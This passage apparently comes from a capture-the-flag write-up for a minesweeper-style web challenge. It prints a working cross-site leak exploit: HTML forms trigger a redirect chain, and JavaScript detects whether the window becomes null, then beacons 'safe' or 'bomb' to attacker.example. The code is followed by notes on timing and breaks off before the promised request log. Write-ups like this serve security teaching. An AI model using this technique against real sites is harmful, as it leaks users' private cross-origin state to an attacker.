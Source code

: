 ```html, hl_lines=14
<form id="form-guess" method="post" action="https://gosweeper.example/guess" target="_blank">
  <input type="hidden" name="guess" value="0" />
</form>

<form id="form-redirect" method="get" action="https://xsinator.com/testcases/files/maxredirect.php" target="redirect-window">
  <input type="hidden" name="n" value="18" />
  <input type="hidden" name="url" value="https://gosweeper.example/board" />
</form>

<script>
  const sleep = t => new Promise((resolve) => setTimeout(resolve, t));

  const callback = w => {
    const result = w.window == null ? 'safe' : 'bomb';
    navigator.sendBeacon(`https://attacker.example/callback/${result}`);
  }

  let w = window.open('', 'redirect-window');

  const leak = async () => {
    document.getElementById('form-redirect').submit();
    await sleep(2500);
    callback(w);
    await sleep(100);
    callback(w);
    await sleep(100);
    callback(w);
    // (repeat a few times)
  };

  window.opener.onunload = () => {
    document.getElementById('form-guess').submit()
    leak();
  }
</script>
```

Notice some optimisations that were made in order to make sure we always™ get the
correct result:
- A new tab is open as soon as the page is loaded, even before the `window.opener.onunload`
  event handler is fired, in order to reduce the time it takes to initiate the request of
  the redirects;
- The redirects are _slow_, so starting them at the same time as the guess is not a problem
  and also helps with making sure it finishes within the 4 seconds that we have;
- We first wait 2.5 seconds after sending back the status of the window, but in some cases
  this might not be enough time for all the redirects to finish, so we keep sending requests
  at 100ms intervals afterwards (until the browser process is abruptly terminated).

This correctly identifies whether the tile is a bomb.
Here is a log of the request in case of a bomb:
